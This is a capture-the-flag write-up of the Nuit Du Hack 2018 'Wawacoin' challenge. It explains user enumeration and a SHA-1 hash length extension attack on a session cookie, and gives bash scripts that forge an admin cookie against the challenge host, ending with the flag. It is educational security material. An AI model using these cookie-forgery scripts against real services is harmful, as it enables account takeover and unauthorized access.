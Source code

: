 # Wawacoin

Wawacoin was a 400-point Crypto/Web challenge at **Nuit Du Hack Quals 2018**.
As is [not the first time](https://inshallhack.org/pizzagate_34C3/), we ended
up flagging this challenge about **10 minutes after the end of the CTF**.
Nevertheless, here it goes!

## Challenge description

```  
Wawacoin: 400 pts / Web-Crypto  
Description  
Sell your house, buy WawaCoin cryptocurrency cyber-blockchain, ???, profit.  
```

## Recon

The menu shows links to 3 different pages: **/**, **/login** and
**/register**.

Let's check them all out!

### Page: /

**/** contains static content, with a graph and some text; it's unlikely to be
very interesting for us. The source of the page contains links to two
potentially interesting JavaScript files: **/static/js/wawacoin.js** and
**/js/wawacoin-miner.js**. Unfortunately, the first is empty and the second
doesn't exist.

### Page: /login

**/login** contains a login form to something called **WawaManager**. We throw
some (*unsuccessful*) **random SQLi attempts** at it and try to login with
different credentials, such as **admin:admin** or **root:toor**.  
In the process, we notice that we get two different errors: `Bad username` and
`Bad password`. From that, we deduce that the form is vulnerable to **user
enumeration** and subsequently, that a user with the login "**admin**" exists.
Let's keep that in mind for later.

### Page: /register

**/register** informs us that it is no longer possible to register on the
website, but invites us to try out the website using a "demo" account by
clicking on a link to **/login?demo=1**.

### Page: /login?demo=1 -> /manager

**/login?demo=1** redirects us to **/manager**, which contains a seemingly
totally legit form that invites us to provide our bank card information in
order to verify our identity before entering the demo interface. Doubt
regarding the legitimacy turn to dust as we fill out the required information,
only for them to be **partially** sent (*half the information was missing*) as
a **POST request** to **/stealmoney**, resulting in the page advising us that
we "**need at least 1M bucks for this to work**". Our last shreds of hope turn
to dust as we get the exact same response when trying the same process with
our multimillionaire bank account.

A session cookie was set when accessing the page:
**session=757365723d64656d6f|9183ff6055a46981f2f71cd36430ed3d9cbf6861**.  
After logging out of the demo account and in again, we observe that the cookie
still contains the same value.

Digging a bit deeper, we observe that it is made of two distinct parts
(*separated by a "|"*): the first is the hex value of the string
**user=demo**, while the second seems to be a hash of some kind. Since it is
40 digits long, **we assume it is a SHA-1 hash**. However, the hash is not
equal to **sha1("user=demo")**; modifying any part of the cookie seems to
render it unusable, which leads us to believe that the hash is some kind of
**MAC** for the first part of the cookie, and uses a secret key owned by the
server.

## Exploitation

Though it took us quite a while to figure it out, a **hash length extension
attack** is the only (*and obvious*) way to go here. We may assume that our
aim is to get a hold of another, non-demo user account on the website, which
means that knowing **admin** is a valid user will come in handy.

### Hash length extension attack

The whole explanation between [hash length extension
attacks](vhttps://en.wikipedia.org/wiki/Length_extension_attack) is beyond the
scope of this writeup. The idea behind it, though, is that assuming some
characteristics of the hashing algorithm (*which SHA-1 and MD5 have*), and
**knowing the length of the secret key used, a string and its MAC**, it is
possible to extend said string and to **produce a valid MAC for the extended
string**.

For a clearer explanation, see
[skullsecurity.org](https://blog.skullsecurity.org/2012/everything-you-need-
to-know-about-hash-length-extension-attacks) or
[batard.info](https://journal.batard.info/post/2011/03/04/exploiting-
sha-1-signed-messages).

With the end of the CTF approaching really fast, we stumble upon [hash-
extender](https://github.com/iagox86/hash_extender) and get to work.

### Flag time

While we have a string and its MAC, **we still need to find out the length of
the secret key** in order to launch our hash length extension attack.

To that end, we quickly craft the following dirty script:

```bash  
#!/bin/bash

append=$1

for i in $(seq 1 20)  
do  
   echo $i  
   tmp=$(./hash_extender -d="user=demo" --signature=9183ff6055a46981f2f71cd36430ed3d9cbf6861 --format=sha1 --append "$append" -l $i | grep -v Type | grep -v Secret | cut -d":" -f 2 | tr "\n" "|" | tr -d " " | sed 's/||//g')  
   tmp2=$(echo $tmp | cut -d"|" -f 2)  
   tmp3=$(echo $tmp | cut -d"|" -f 1)  
   cookie=$(echo "$tmp2|$tmp3")  
   curl 'http://wawacoin.challs.malice.fr/manager' -H "Cookie:
session=$cookie"  
done  
```

Then, **we use the response code of the curl request as an oracle**: if the
response code is 200, that means that the cookie is valid (*and that we found
the right length for the secret key*); otherwise, we get redirected out of the
manager and the status code is thus 302. The value of `$append` doesn't matter
at this point.

After running the above script, we figure out that the secret key is **16
characters long**.  
All that's left is to find a proper payload now.

With our little CTF experience, we quickly try out the value
**user=demo;user=admin** and obtain the flag (*albeit too late :(*):

```bash  
#!/bin/bash

append=";user=admin"  
i=16  
tmp=$(./hash_extender -d="user=demo" --signature=9183ff6055a46981f2f71cd36430ed3d9cbf6861 --format=sha1 --append "$append" -l $i | grep -v Type | grep -v Secret | cut -d":" -f 2 | tr "\n" "|" | tr -d " " | sed 's/||//g')  
tmp2=$(echo $tmp | cut -d"|" -f 2)  
tmp3=$(echo $tmp | cut -d"|" -f 1)  
cookie=$(echo "$tmp2|$tmp3")  
curl 'http://wawacoin.challs.malice.fr/manager' -H "Cookie: session=$cookie"  
```

And… **Flagged!**

**Flag: NDH{c7774051db4b880da67598770c955ff99363e76d}**

Original writeup (https://inshallhack.org/wawacoin_ndh_quals_2018/).
